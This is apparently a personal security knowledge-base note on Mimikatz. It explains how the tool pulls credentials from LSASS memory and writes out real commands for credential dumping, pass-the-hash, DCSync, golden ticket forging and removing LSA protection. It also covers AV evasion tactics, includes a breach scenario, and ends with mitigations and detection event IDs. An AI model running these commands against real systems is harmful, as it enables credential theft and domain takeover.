

# Mimikatz — Credential Dumping and AD Abuse

## 1. Introduction

Created by Benjamin Delpy (gentilkiwi), **Mimikatz** is arguably the most famous and impactful post-exploitation tool in the history of Windows security. Originally developed as a proof-of-concept to demonstrate flaws in Windows authentication protocols, it has evolved into a comprehensive suite for extracting plaintext passwords, hashes, PINs, and Kerberos tickets directly from memory. 

Mimikatz operates primarily by interacting with the **Local Security Authority Subsystem Service (LSASS)**, the Windows process responsible for enforcing security policies and managing active authentication sessions. In modern Active Directory (AD) exploitation, Mimikatz is the de facto standard for lateral movement, privilege escalation, and domain dominance.

Because of its prevalence, Mimikatz is highly signatured by every modern Endpoint Detection and Response (EDR) and Antivirus (AV) solution. However, understanding its mechanics is mandatory, as attackers continuously develop custom loaders, obfuscation techniques, and direct-syscall implementations to bypass defenses.

---

## 2. Core Architecture and Memory Interaction

Mimikatz requires local Administrator privileges and the `SeDebugPrivilege` to function. `SeDebugPrivilege` allows a process to inspect and adjust the memory of other processes, which is essential for hooking into LSASS.

### 2.1 The `privilege::debug` Command
The very first command executed in a Mimikatz session is typically `privilege::debug`.
- This API call requests the OS to adjust the token privileges of the Mimikatz process.
- If successful, it confirms that the attacker has sufficient local rights to query and read the memory space of `lsass.exe`.

### 2.2 Security Support Providers (SSPs)
Windows uses SSPs to implement various authentication protocols. When a user logs in, their credentials (or derivations thereof) are passed to these SSPs and stored in LSASS memory to facilitate Single Sign-On (SSO). Mimikatz targets these specific SSPs:
- **WDigest**: Historically stored plaintext passwords. (Disabled by default in Win 8.1+ / Server 2012 R2+, but can be re-enabled).
- **MSV1_0**: Stores NTLM hashes.
- **Kerberos**: Stores Kerberos tickets (TGTs, TGSs) and session keys.
- **Tspkg & CredSSP**: Used for Terminal Services and remote authentication.

---

## 3. Visual Architecture: LSASS Memory Extraction



---

## 4. Key Modules and Attack Vectors

Mimikatz contains dozens of modules. The most heavily utilized in AD attacks are `sekurlsa`, `lsadump`, and `kerberos`.

### 4.1 Sekurlsa: Memory Extraction
The `sekurlsa` module extracts credentials from the memory of SSPs.

**sekurlsa::logonpasswords**
This is the holy grail command. It iterates through all active logon sessions (LUIDs) and dumps available credentials from all loaded SSPs.
```text
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```
*Output will include the user's NTLM hash, SHA1 hash, and (if legacy protocols or registry modifications are present) their plaintext password.*

**sekurlsa::pth (Pass-The-Hash)**
Mimikatz can spawn a new process running under the context of a compromised user by injecting their NTLM hash directly into the local session, entirely bypassing the need for a plaintext password.
```text
mimikatz # sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:a1b2c3d4e5f6g7h8i9j0... /run:cmd.exe
```

**sekurlsa::tickets (Pass-The-Ticket)**
Used to extract and inject Kerberos tickets directly into memory.
```text
mimikatz # sekurlsa::tickets /export
mimikatz # kerberos::ptt ticket.kirbi
```

### 4.2 Lsadump: Domain and Registry Extraction
The `lsadump` module is used for extracting credentials from the registry (SAM/SYSTEM) or directly from Domain Controllers via DRSR (Directory Replication Service Remote Protocol).

**lsadump::dcsync**
This is one of the most critical AD attacks. Instead of running Mimikatz on a Domain Controller, an attacker runs it on a standard workstation but leverages Domain Admin (or equivalent DCSync) rights. Mimikatz pretends to be a Domain Controller and asks the actual DC to replicate credentials (via `DS-Replication-Get-Changes`).
```text
mimikatz # lsadump::dcsync /domain:corp.local /user:krbtgt
```
*Result: The NTLM hash of the krbtgt account is extracted over the network, allowing the immediate creation of Golden Tickets.*

**lsadump::sam**
Dumps the local Security Account Manager (SAM) database, revealing local administrator hashes.
```text
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
```

### 4.3 Kerberos: Ticket Manipulation
The `kerberos` module allows for the forging of Kerberos tickets, enabling massive, long-term persistence.

**Golden Ticket Generation**
Once the `krbtgt` hash is obtained (e.g., via DCSync), attackers forge a TGT that is valid for 10 years and grants access to any resource in the domain.
```text
mimikatz # kerberos::golden /domain:corp.local /sid:S-1-5-21-123456789-123456789-123456789 /rc4:[Krbtgt Hash] /user:FakeAdmin /id:500 /ptt
```

---

## 5. Evasion and OpSec Considerations

Because standard `mimikatz.exe` is instantly quarantined by Windows Defender, attackers use several opsec-safe evasion techniques.

### 5.1 In-Memory Execution
Dropping `mimikatz.exe` to disk is guaranteed to trigger alerts. Attackers instead load Mimikatz directly into memory using tools like PowerShell (e.g., `Invoke-Mimikatz.ps1`) or via C2 frameworks (Cobalt Strike's `logonpasswords` command uses a reflective DLL injection of Mimikatz).

### 5.2 Custom Compilation
Attackers often clone the Mimikatz source code from GitHub and recompile it with modifications:
- Stripping all string references to "mimikatz", "gentilkiwi", and "sekurlsa".
- Changing the icon and version information.
- Modifying the core memory signatures that AV relies upon.

### 5.3 Bypassing LSA Protection (RunAsPPL)
Modern Windows environments often enable **LSA Protection (Protected Process Light - PPL)**. When enabled, even an Administrator cannot inject into or read LSASS memory using `SeDebugPrivilege`.
Mimikatz can bypass this using its `mimidrv.sys` kernel driver. By loading a malicious signed driver (often vulnerable, via Bring Your Own Vulnerable Driver - BYOVD), Mimikatz patches the kernel to remove the PPL flag from LSASS.
```text
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords
```

---

## 6. Detection and Mitigation

### 6.1 Mitigation Strategies
- **Disable WDigest:** Ensure `UseLogonCredential` is set to `0` in `HKLM\System\CurrentControlSet\Control\SecurityProviders\WDigest`.
- **LSA Protection (PPL):** Enable RunAsPPL in the registry to prevent non-PPL processes from opening handles to LSASS.
- **Credential Guard:** Enable Windows Defender Credential Guard, which uses virtualization-based security (VBS) to isolate LSASS into a separate, highly protected VM container that even SYSTEM cannot read.
- **Restrict Debug Privileges:** Remove `SeDebugPrivilege` from local administrators via Group Policy if not explicitly required by software.

### 6.2 Detections
- **Event ID 4656 / 4663:** Monitor for handle requests to `lsass.exe` with access masks `0x1010` or `0x1410`.
- **Event ID 4673:** Sensitive privilege use (`SeDebugPrivilege`).
- **PowerShell Logging:** Enable Script Block Logging (Event ID 4104) to catch memory-resident scripts like `Invoke-Mimikatz`.
- **DCSync Detection:** Monitor Event ID 4662 (Directory Service Access) where properties include `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (DS-Replication-Get-Changes).

---

## Real-World Attack Scenario

During a targeted attack against a financial institution, threat actors gained initial access to a developer's workstation via a spear-phishing campaign. Their immediate goal was to escalate privileges from local user to Domain Admin to access the core payment processing servers.

**The Context**
The developer's workstation did not enforce LSA Protection (RunAsPPL) and the developer had local administrator rights to install software. Furthermore, a member of the Helpdesk team (`helpdesk_admin`) had logged into this machine earlier in the day via RDP to troubleshoot an issue, leaving their session active but disconnected.

**The Execution**
1.  **Privilege Escalation:** The attacker bypassed UAC to obtain an elevated command prompt running as Local Administrator.
2.  **Memory Extraction:** To avoid dropping a known malicious binary to disk, the attacker used a PowerShell-based memory loader to inject Mimikatz directly into memory. They immediately adjusted privileges and executed the core memory extraction command.
    `privilege::debug`
    `sekurlsa::logonpasswords`
3.  **The Extraction:** Mimikatz successfully hooked into the `lsass.exe` process and dumped the credentials of all active sessions. In the output, the attacker found the NTLM hash for the disconnected `helpdesk_admin` account.
4.  **The Outcome:** The attacker utilized Mimikatz's Pass-the-Hash capability to spawn a new process under the context of the helpdesk administrator.
    `sekurlsa::pth /user:helpdesk_admin /domain:bank.local /ntlm:e52cac67419a9a22... /run:cmd.exe`
    With this new command prompt, the attacker enumerated the domain, discovered that `helpdesk_admin` had administrative rights over several critical servers, and successfully pivoted laterally to the payment processing infrastructure.

## 7. Chaining Opportunities

- **[[21 - LSASS Dumping]]**: If Mimikatz is caught by EDR, attackers will instead quietly dump LSASS using native tools (Task Manager, ProcDump), exfiltrate the `.dmp` file, and run Mimikatz *offline* on their own machine.
- **[[25 - Golden and Silver Tickets]]**: Mimikatz is the primary engine used to convert extracted hashes into forged Kerberos tickets for persistence.
- **[[19 - AdminSDHolder Abuse]]**: Attackers can use AdminSDHolder to grant themselves DCSync rights, which they then abuse via `lsadump::dcsync` in Mimikatz.

## 8. Related Notes
- [[21 - LSASS Dumping]]
- [[25 - Golden and Silver Tickets]]
- [[22 - SAM Hive Extraction]]
- [[12 - Pass the Hash and Overpass the Hash]]
